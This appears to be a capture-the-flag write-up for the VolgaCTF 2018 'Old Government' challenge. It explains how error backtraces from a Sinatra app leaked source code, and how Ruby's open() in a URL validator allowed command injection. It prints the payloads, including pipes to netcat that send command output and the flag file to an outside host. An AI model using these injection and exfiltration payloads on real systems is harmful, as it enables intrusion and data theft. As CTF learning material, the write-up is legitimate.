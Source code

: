 ```yaml
---
layout: post
title: volgactf 2018 - Old Government
author: onionpsy
comments: true
---
```


We started by checking the link on the header and we saw that an `id` is passed in the url with the id of the page: `page?id=36`. After some tries we found that we could crash the application by passing id as an array, like that : `page?id[]=36`.

```ruby
NoMethodError at /page
undefined method `to_i' for ["36"]:Array Did you mean? to_s to_a to_h
```

It gave us info that the website is powered by Sinatra, a ruby web framework.

On the backtrace, we could see part of the code.

### articles.erb
```ruby
case @id.to_i

    when 2
      erb :page2
    when 5
      erb :page5
    when 18
      erb :page18
    when 23
```

### app.rb
```ruby
        headers "Server" => ""
      	erb :index
      end

      get '/page' do
      	@id = params[:id]
        headers "Server" => ""

      	erb :articles

      end

      post '/page' do
      	@id = params[:id]
        headers "Server" => ""
      	erb :articles
      end
```

After a few tries on the pages, we found that the page with the id 18 has a form with 2 fields. One is waiting a valid url (`site`) and the other is an optional description (`description`). We used once again the `page?id[]=36` trick but through the POST this time. This gave us more informations about the code. The most interesting one is this function:

```ruby
  def siteValidator(site)
    begin
  	  r = open(site, :allow_redirections => :all)
	(...)
```

Judging by the name it seems that this one is ran on the site field of the post query. Judging by [OWASP - Ruby on Rails Cheatsheet](https://www.owasp.org/index.php/Ruby_on_Rails_Cheatsheet), `open` can be actually used to inject command.
After some tries we can see that it works:
 * `site=| ls` show `validated`
 * `site=| aaaa` show `error`

But because we don't have any sort of output, we decided to create a reverse shell using netcat (present on the server) using this syntax: `site=| <command> | netcat <ip> <port>`

After some directory listing, we saw the flag file:
`site=| cat ../../flag | netcat <ip> <port>`

Done!
